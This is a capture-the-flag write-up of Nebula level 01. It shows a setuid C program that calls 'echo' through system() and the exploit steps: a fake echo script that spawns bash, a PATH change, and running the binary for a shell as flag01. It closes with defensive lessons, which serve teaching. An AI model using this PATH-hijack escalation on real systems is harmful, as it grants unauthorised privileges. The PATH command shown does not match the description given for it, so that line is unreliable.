 ```yaml
---
layout: post
title: "Nebula Series - Level 01"
---
```


Nebula is the first in a series of VMs from Exploit Exercises. It consists of 20 levels which range
in difficulty from simple to intermediate and cover topics like Linux privilege escalation and file
system race conditions.

Level 01 introduces us to the concept of setuid and the dangers of trusting the user's environment
to invoke another executable from within our code.

<!--more-->

Ok, so the first thing to understand is that `setuid` and `setgid` are unix flags that allow us to
run an executable with the permissions of the executables owner or group. If not designed properly,
they can be used for privilege escalation.

Inspecting the `flag01` users home directory, we see a single executable named `/flag01`

We can check the permissions with

```shell
$ stat -c "%a" /home/flag01/flag01

4750
```

The leading 4 indicates that the setuid permission is
set.

Alternatively we can run `ls -l` and look for an 's' in the executable position of the user permissions.

```shell
$ ls -l /home/flag01

-rwsr-x--- 1 flag01 level01 7322 2011-11-20 21:22 /home/flag01/flag01
```

Here we also see that the owner is `flag01`.

To make things a little easier for us, we're also provided with the source code.

```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  gid_t gid;
  uid_t uid;
  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  system("/usr/bin/env echo and now what?");
}
```

We can see the application sets our *real* user id and group id using `setresgid` and `setresuid` to
our *effective* user id and group id which it gets with `getegid` and `geteuid`. Then it calls
"echo" using `system()`.

The question is, which `echo`? Well, we can influence that by modifying our path.

Let's create a new file named `echo` in our home directory with the following contents


```bash
#!/bin/bash

/bin/bash
```

Make sure it's executable with

```bash
$ chmod +x /home/level01/echo
```

Add our home directory to the front of our PATH so that our `echo` is the one that gets run

```bash
$ PATH=/home/$PATH
```

All that's left is to run the flag01 executable

```bash
$ /home/flag01/flag01
```

and we will be presented with a bash shell as the `flag01` user. To complete the level we use our escalated
privileges to run getflag

```bash
$ getflag

"You have successfully executed getflag on a target account"
```

before vanishing without a trace.

Lessons learned:

- `setuid` executables run with the permissions of the owner
- `setgid` executables run with the permissions of the group
- these flags are ignored for interpreted executables
- `setuid/setgid` executables can be exploited if not designed carefully
- relying on the user's environment to run the intended executable using `system` is unsafe
